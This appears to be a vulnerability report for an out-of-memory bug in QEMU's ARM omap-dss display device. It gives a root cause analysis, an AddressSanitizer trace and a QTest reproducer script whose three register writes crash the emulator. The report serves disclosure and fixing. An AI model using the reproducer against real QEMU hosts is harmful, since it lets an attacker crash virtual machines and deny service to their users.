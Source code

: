 # Out of memory in hw/omap-dss for ARM

# Out-of-memory bug in hw/omap-dss for ARM causing a DoS

## Root cause analysis

In omap-dss, g_realloc(bounce_buffer, len) can allocate a very large buffer causing the memory exhaustion.

```
static void omap_rfbi_write(void *opaque, hwaddr addr, uint64_t value, unsigned size) {
   switch (addr) {
     case 0x44:	/* RFBI_PIXELCNT */
        s->rfbi.pixels = value; // first, set pixels with any value
        break;

static void omap_rfbi_transfer_start(struct omap_dss_s *s) {
    len = s->rfbi.pixels * 2;  // second, double pixels
    if (!data) {
        if (len > bounce_len) {
            bounce_buffer = g_realloc(bounce_buffer, len);
                                          // BOOM Here
        }
```

## More details

### Hypervisor, hypervisor version, upstream commit/tag, host

qemu, 6.1.50, c52d69e7dbaaed0ffdef8125e79218672c30161d, Ubuntu 18.04

### VM architecture, device, device type

arm, omap_dss, display

### Bug Type: Out-of-Memory

### Stack traces, crash details

```
==471==ERROR: AddressSanitizer: requested allocation size 0xfffffffffffe0000 (0xfffffffffffe1000 after adjustments for alignment, red zones etc.) exceeds maximum supported size of 0x10000000000 (thread T0)
    #0 0x55a003044368 in __interceptor_realloc /root/llvm-project/compiler-rt/lib/asan/asan_malloc_linux.cpp:164
    #1 0x7f5cf9d85c8f in g_realloc (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x51c8f)
    #2 0x55a004095907 in memory_region_write_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:491:5
    #3 0x55a0040952ed in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x55a0040952ed in memory_region_dispatch_write /root/qemu/build-oss-fuzz/../softmmu/memory.c:1502:16
    #5 0x55a003f433a1 in flatview_write_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2746:23
    #6 0x55a003f35f37 in flatview_write /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2786:14
    #7 0x55a003f356dc in address_space_write /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2878:18
    #8 0x55a003fecdc9 in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:534:13
    #9 0x55a003fecdc9 in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x55a0041d7d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f5cf9d803a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)

==471==HINT: if you don't care about these errors you may set allocator_may_return_null=1
SUMMARY: AddressSanitizer: allocation-size-too-big /root/llvm-project/compiler-rt/lib/asan/asan_malloc_linux.cpp:164 in __interceptor_realloc
==471==ABORTING
```

### Reproducer steps

I use QTest to reproduce this bug.

```
#!/bin/bash -x
export QEMU=/root/qemu/build-oss-fuzz/qemu-system-arm
export BUILDROOT=./
# 0x48050800
cat << EOF | $QEMU \
-machine n810,accel=qtest -m 128M -qtest stdio -monitor none -serial none \
-display none -nodefaults -qtest stdio
writel 0x48050440 0x00000800
writel 0x48050844 0xFFFF0000
writel 0x48050840 0x00000011
EOF
```

qemu-system-arm: GLib: ../../../../glib/gmem.c:170: failed to allocate 18446744073709420544 bytes

## Contact

Let us know if I need to provide more information.
